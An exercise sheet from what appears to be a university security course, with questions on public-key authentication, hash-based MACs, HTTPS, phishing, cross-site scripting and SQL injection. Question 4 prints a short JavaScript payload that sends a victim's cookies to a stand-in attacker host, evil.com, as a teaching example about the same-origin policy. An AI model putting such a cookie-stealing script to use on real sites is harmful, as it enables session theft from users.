 # Exercises sheet 3

**There will be no written corrections. Exercises will be discussed during the recorded live Q&A. Come and prepare questions.**

1. Barack often sends funny jokes to Hillary. He does not care about confidentiality of these messages but wants to get credit for the jokes and prevent Bill from claiming authorship or modifying them. How can this be achieved using public-key cryptography?

2. As public-key cryptography is computationally intensive and drains the battery of Barack’s device, he comes up with an alternative approach. First, he shares a secret key k with Hillary but not with Bill. Next, together with a joke x, he sends over the value d = h(k\|\|x), where h is a cryptographic hash function. Does value d provide assurance to Hillary that Barack is the author of x and that x was not modified by Bill? Justify your answer.

3. Barack periodically comes up with brilliant ideas to stop the financial crisis, provide health care to every citizen, and save the polar bears. He wants to share these ideas with all the cabinet members but also get credit for the ideas. Extending the above approach, he shares a secret key k with all the cabinet members. Next, he broadcasts each idea z followed by value h(k\|\|z). Does this approach work or can Tim claim that he came up with the ideas instead of Barack? Justify your answer.

4. Suppose that you accidently visit a malicious site www.evil.com, which contains a JavaScript to access cookies related to your e-shopping site buy-all.bz as follows:
    ```
    <script>
        img = new Image();
        img.src = "http://www.evil.com/steal.php?cookie=" + document.cookie;
    </script>
    ```
    Will that be successful? Why or why not?

5. Which of the following security goals are addressed by the HTTPS protocol: (a) privacy, (b) confidentiality, (c) availability.

6. Is it possible for an attacker to perform a phishing attack if the client is using HTTPS? Why or why not?

7. Explain why, in general, a web server should not be allowed access to cookies set by another web server.

8. Summarize the difference between persistent and non-persistent cross-site scripting attacks.

9. Explain why input validation mitigates the risks of SQL injection attacks.
